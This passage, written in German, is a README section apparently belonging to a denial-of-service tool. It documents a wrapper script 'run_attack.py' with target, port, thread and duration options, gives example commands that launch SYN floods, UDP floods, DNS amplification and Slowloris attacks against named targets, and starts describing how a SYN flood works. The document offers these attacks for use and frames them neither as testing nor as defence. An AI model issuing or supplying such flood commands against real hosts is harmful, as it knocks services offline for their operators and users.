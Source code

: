 ## 🚀 Verwendung

### Grundlegende Verwendung

Wir empfehlen die Verwendung des bereitgestellten Wrapper-Scripts `run_attack.py`:

```bash
# Ausführbares Script erstellen
chmod +x run_attack.py

# Ausführen eines Angriffs
./run_attack.py --attack <angriffstyp> --target <ziel> --duration <dauer_in_sekunden>
```

### Verfügbare Parameter

| Parameter | Beschreibung | Standardwert |
|-----------|--------------|--------------|
| `--attack` | Angriffstyp (erforderlich) | - |
| `--target` | Zieladresse (IP oder Domain, erforderlich) | - |
| `--port` | Zielport | 80 |
| `--duration` | Angriffsdauer in Sekunden | 30 |
| `--threads` | Anzahl der zu verwendenden Threads | 10 |
| `--timeout` | Verbindungs-Timeout in Sekunden | 5.0 |

### Beispiele

```bash
# SYN-Flood gegen einen Webserver
./run_attack.py --attack syn_flood --target beispiel.de --duration 20

# UDP-Flood mit mehr Threads
./run_attack.py --attack udp_flood --target 192.168.1.1 --threads 50 --duration 15

# DNS-Amplification-Angriff
./run_attack.py --attack dns_amplification --target beispiel.de --duration 10

# Slowloris-Angriff gegen einen nicht-Standard-Port
./run_attack.py --attack slowloris --target beispiel.de --port 8080 --duration 30
```

## 🔍 Funktionsweise der Angriffsmethoden

### SYN-Flood
Sendet eine große Anzahl von TCP-SYN-Paketen an das Ziel, ohne den Handshake abzuschließen, um die Verbindungs-Warteschlange zu füllen.
